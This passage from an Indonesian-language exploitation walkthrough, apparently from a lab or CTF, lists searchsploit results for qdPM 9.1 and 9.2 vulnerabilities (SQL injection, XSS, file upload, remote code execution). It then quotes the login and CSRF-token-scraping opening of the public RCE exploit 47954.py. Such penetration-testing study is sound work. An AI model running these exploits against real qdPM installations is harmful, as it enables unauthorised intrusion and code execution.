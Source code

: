 ```
qdPM 9.1 - 'cfg[app_app_name]' Persistent Cross-Site Scripting                                                                                                                               | php/webapps/48486.txt
qdPM 9.1 - 'filter_by' SQL Injection                                                                                                                                                         | php/webapps/45767.txt
qdPM 9.1 - 'search[keywords]' Cross-Site Scripting                                                                                                                                           | php/webapps/46399.txt
qdPM 9.1 - 'search_by_extrafields[]' SQL Injection                                                                                                                                           | php/webapps/46387.txt
qdPM 9.1 - 'type' Cross-Site Scripting                                                                                                                                                       | php/webapps/46398.txt
qdPM 9.1 - Arbitrary File Upload                                                                                                                                                             | php/webapps/48460.txt
qdPM 9.1 - Remote Code Execution                                                                                                                                                             | php/webapps/47954.py
qdPM 9.1 - Remote Code Execution (RCE) (Authenticated)                                                                                                                                       | php/webapps/50175.py
qdPM 9.1 - Remote Code Execution (RCE) (Authenticated) (v2)                                                                                                                                  | php/webapps/50944.py
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                                                                                                                                 | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                                                                                                                               | php/webapps/50176.txt
qdPM < 9.1 - Remote Code Execution                                                                                                                                                           | multiple/webapps/48146.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
## exploit analyzing
ada beberapa hal menarik yang ingin saya jelaskan di sini ialah dalam `php/webapps/47954.py` terdapat kode seperti yang ada di bawah
```py
def main(HOSTNAME, EMAIL, PASSWORD):
    url = HOSTNAME + '/index.php/login'
    result = session_requests.get(url)
    #print(result.text)
    login_tree = html.fromstring(result.text)
    authenticity_token = list(set(login_tree.xpath("//input[@name='login[_csrf_token]']/@value")))[0]
    payload = {'login[email]': EMAIL, 'login[password]': PASSWORD, 'login[_csrf_token]': authenticity_token}
    result = session_requests.post(HOSTNAME + '/index.php/login', data=payload, headers=dict(referer=HOSTNAME + '/index.php/login'))
    # The designated admin account does not have a myAccount page
    account_page = session_requests.get(HOSTNAME + 'index.php/myAccount')
    account_tree = html.fromstring(account_page.content)
    userid = account_tree.xpath("//input[@name='users[id]']/@value")
    username = account_tree.xpath("//input[@name='users[name]']/@value")
```